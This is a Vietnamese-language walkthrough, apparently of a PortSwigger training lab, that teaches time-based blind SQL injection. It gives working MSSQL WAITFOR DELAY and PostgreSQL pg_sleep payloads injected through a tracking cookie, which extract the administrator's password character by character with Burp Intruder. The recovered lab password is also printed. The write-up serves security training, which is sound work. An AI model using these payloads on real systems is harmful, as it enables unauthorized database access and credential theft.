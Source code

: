 # Exploiting blind SQL injection by triggering time delays

Nếu ứng dụng bắt lỗi từ cơ sở dữ liệu khi thực thi truy vấn SQL và xử lý chúng một cách an toàn, thì sẽ không có sự khác biệt nào trong phản hồi của ứng dụng. Điều này có nghĩa là kỹ thuật gây lỗi có điều kiện trước đó sẽ không hiệu quả.

Trong tình huống này, có thể khai thác lỗ hổng bind SQL Injection bằng cách **kích hoạt độ trễ thời gian** tùy thuộc vào việc điều kiện chèn vào có đúng hay không.

# Exploiting blind SQL injection by triggering time delays - Continued

Các **kỹ thuật kích hoạt độ trễ thời gian** phụ thuộc vào loại cơ sở dữ liệu đang sử dụng. Ví dụ, trên Microsoft SQL Server, có thể sử dụng các truy vấn sau để kiểm tra điều kiện và kích hoạt độ trễ nếu biểu thức điều kiện đúng:

    '; IF (1=2) WAITFOR DELAY '0:0:10'--  
    '; IF (1=1) WAITFOR DELAY '0:0:10'--  

- Truy vấn đầu tiên **không kích hoạt độ trễ**, vì điều kiện **1=2** là sai.

- Truy vấn thứ hai **kích hoạt độ trễ 10 giây**, vì điều kiện **1=1** là đúng.

**Khai thác để trích xuất dữ liệu**

Sử dụng kỹ thuật này, có thể **trích xuất dữ liệu** bằng cách kiểm tra từng ký tự của giá trị **Password**:

    '; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--  

- Nếu mật khẩu của tài khoản **Administrator** bắt đầu bằng **một ký tự lớn hơn 'm'**, truy vấn sẽ kích hoạt độ trễ, cho phép kẻ tấn công suy luận giá trị thực tế của mật khẩu từng ký tự một.

**Lưu ý**: Có nhiều cách khác nhau để kích hoạt độ trễ trong truy vấn SQL, và mỗi loại cơ sở dữ liệu sẽ có các phương pháp riêng.

# Lab: Blind SQL injection with time delays and information retrieval

![img](https://github.com/DucThinh47/PortSwigger/blob/main/SQL-injection/images/image181.png?raw=true)

Truy cập lab: 

![img](https://github.com/DucThinh47/PortSwigger/blob/main/SQL-injection/images/image182.png?raw=true)

Chọn category Gifts và intercept request này: 

![img](https://github.com/DucThinh47/PortSwigger/blob/main/SQL-injection/images/image183.png?raw=true)

Website có sử dụng Tracking cookie để theo dõi hành vi của người dùng. 

Thay giá trị TrackingId thành: 

    x'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END-- 

![img](https://github.com/DucThinh47/PortSwigger/blob/main/SQL-injection/images/image184.png?raw=true)

=> Send request và để ý website mấy 10s để response: 

![img](https://github.com/DucThinh47/PortSwigger/blob/main/SQL-injection/images/image185.png?raw=true)

Thay đổi truy vấn thành:

    x'%3BSELECT+CASE+WHEN+(1=2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--

![img](https://github.com/DucThinh47/PortSwigger/blob/main/SQL-injection/images/image186.png?raw=true)

Send request, để ý lần mày website không chờ mà phản hồi luôn: 

![img](https://github.com/DucThinh47/PortSwigger/blob/main/SQL-injection/images/image187.png?raw=true)

=> Có thể test một điều kiện boolean để kiểm tra kết quả. Thay đổi truy vấn thành: 
    
    x'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--

Send request, để ý phải chờ 10s thì website mới phản hồi => Có username administrator: 

![img](https://github.com/DucThinh47/PortSwigger/blob/main/SQL-injection/images/image188.png?raw=true)

Tiếp theo cần xác định độ dài password, dùng truy vấn: 

    x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--

Send request, để ý phải chờ 10s thì website mới phản hồi => Độ dài password > 1:

![img](https://github.com/DucThinh47/PortSwigger/blob/main/SQL-injection/images/image189.png?raw=true)

Thay đổi truy vấn thành: 

    x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>20)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--

Send request, website không cần chờ 10s mà phản hồi luôn => độ dài password là 20. 

![img](https://github.com/DucThinh47/PortSwigger/blob/main/SQL-injection/images/image190.png?raw=true)

Tiếp theo cần thử từng ký tự tương ứng với từng vị trí trong password, chuyển request sang Intruder và thay đổi truy vấn thành: 

    x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--

![img](https://github.com/DucThinh47/PortSwigger/blob/main/SQL-injection/images/image191.png?raw=true)

Chọn 'a' làm giá trị để brute-force: 

![img](https://github.com/DucThinh47/PortSwigger/blob/main/SQL-injection/images/image192.png?raw=true)

Cài đặt payload:

![img](https://github.com/DucThinh47/PortSwigger/blob/main/SQL-injection/images/image193.png?raw=true)

Cài đặt Resource pool: 

![img](https://github.com/DucThinh47/PortSwigger/blob/main/SQL-injection/images/image194.png?raw=true)

=> Start attack: 

Xem xét kết quả tấn công để tìm giá trị của ký tự tại vị trí đầu tiên. Thấy một cột trong kết quả có tên **Response received**. Cột này thường chứa một số nhỏ, biểu thị số mili-giây mà ứng dụng mất để phản hồi.

Một trong các hàng sẽ có giá trị lớn hơn trong cột này, khoảng 10.000 mili-giây. Payload hiển thị trong hàng đó chính là giá trị của ký tự tại vị trí đầu tiên.

![img](https://github.com/DucThinh47/PortSwigger/blob/main/SQL-injection/images/image195.png?raw=true)

=> Ký tự đầu tiên của password là **m**. Làm tương tự với các ký tự còn lại. 

Tìm được password: m1p43t2nz7ylkkgmci42

Login tài khoản administrator và solved bài lab: 

![img](https://github.com/DucThinh47/PortSwigger/blob/main/SQL-injection/images/image196.png?raw=true)

1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20
m1p43t2nz7ylkkgmci42